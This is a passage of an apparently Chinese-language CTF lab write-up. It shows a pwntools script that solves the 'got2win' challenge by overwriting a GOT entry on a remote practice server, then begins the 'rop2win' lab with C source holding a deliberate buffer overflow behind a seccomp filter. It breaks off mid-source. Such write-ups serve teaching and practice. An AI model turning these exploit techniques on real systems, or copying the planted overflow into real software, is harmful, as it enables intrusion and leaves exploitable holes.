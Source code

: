 撰寫解題腳本
```python
# got2win/solve.py
from pwn import *

context.arch = 'amd64'
r = remote('edu-ctf.zoolab.org', 10004)

read_got = 0x404038
write_plt = 0x4010c0

r.sendlineafter(b'Overwrite addr: ', str(read_got).encode())
r.sendafter(b'Overwrite 8 bytes value: ', p64(write_plt))

r.interactive()
```
![](assets/1-8.png)
成功找出 flag 為 ```FLAG{apple_1f3870be274f6c49b3e31a0c6728957f}```
## [LAB] rop2win
題目如下
```c
#include <stdio.h>
#include <unistd.h>
#include <seccomp.h>

char fn[0x20];
char ROP[0x100];

// fd = open("flag", 0);
// read(fd, buf, 0x30);
// write(1, buf, 0x30); // 1 --> stdout

int main()
{
    setvbuf(stdin, 0, _IONBF, 0);
    setvbuf(stdout, 0, _IONBF, 0);

    scmp_filter_ctx ctx = seccomp_init(SCMP_ACT_KILL);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit_group), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(exit), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(open), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(read), 0);
    seccomp_rule_add(ctx, SCMP_ACT_ALLOW, SCMP_SYS(write), 0);
    seccomp_load(ctx);
    seccomp_release(ctx);

    printf("Give me filename: ");
    read(0, fn, 0x20);

    printf("Give me ROP: ");
    read(0, ROP, 0x100);

    char overflow[0x10];
    printf("Give me overflow: ");
    read(0, overflow, 0x30);
```